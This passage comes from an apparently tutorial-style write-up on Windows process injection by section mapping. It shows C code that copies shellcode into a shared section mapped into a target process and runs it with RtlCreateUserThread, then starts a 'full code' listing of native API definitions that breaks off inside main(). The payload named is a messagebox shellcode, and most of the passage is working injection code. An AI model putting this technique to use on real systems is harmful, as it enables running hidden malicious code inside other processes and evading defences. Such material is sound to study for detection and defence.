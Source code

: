Copy shellcode to the local view, which will get reflected in the target process's mapped view.
```C
memcpy(pLocalSectionAddress, bMessageboxShellcode64, sizeof bMessageboxShellcode64);
```

Finally we call a thread on the mapped view containing our shellcode in the remote process.
```C
HANDLE hThread = NULL;

pRtlCreateUserThread(hProcess, NULL, FALSE, 0, 0, 0, pRemoteSectionAddress, NULL, &hThread, NULL);
```

### Full code
```C
#include <Windows.h>

//
// Definitions
//
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#define STATUS_OPEN_FAILED  0xC0000136
#define STATUS_SUCCESS      0x00000000

typedef struct _LSA_UNICODE_STRING { USHORT Length;	USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
typedef struct _OBJECT_ATTRIBUTES { ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;	PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, * PCLIENT_ID;

//
// Define function signatures for ntdll functions
//
typedef NTSTATUS(__stdcall* NTCREATESECTION)(HANDLE*, ULONG, POBJECT_ATTRIBUTES, LARGE_INTEGER*, ULONG, ULONG, HANDLE);
typedef NTSTATUS(__stdcall* NTMAPVIEWOFSECTION)(HANDLE, HANDLE, PVOID*, ULONG_PTR, SIZE_T, PLARGE_INTEGER, PSIZE_T, DWORD, ULONG, ULONG);
typedef NTSTATUS(__stdcall* RTLCREATEUSERTHREAD)(HANDLE, PSECURITY_DESCRIPTOR, BOOLEAN, ULONG, PULONG, PULONG, PVOID, PVOID, PHANDLE, PCLIENT_ID);

INT main() {
	NTSTATUS ntStatus;
	STARTUPINFOA startupInfo;
	PROCESS_INFORMATION processInformation;
```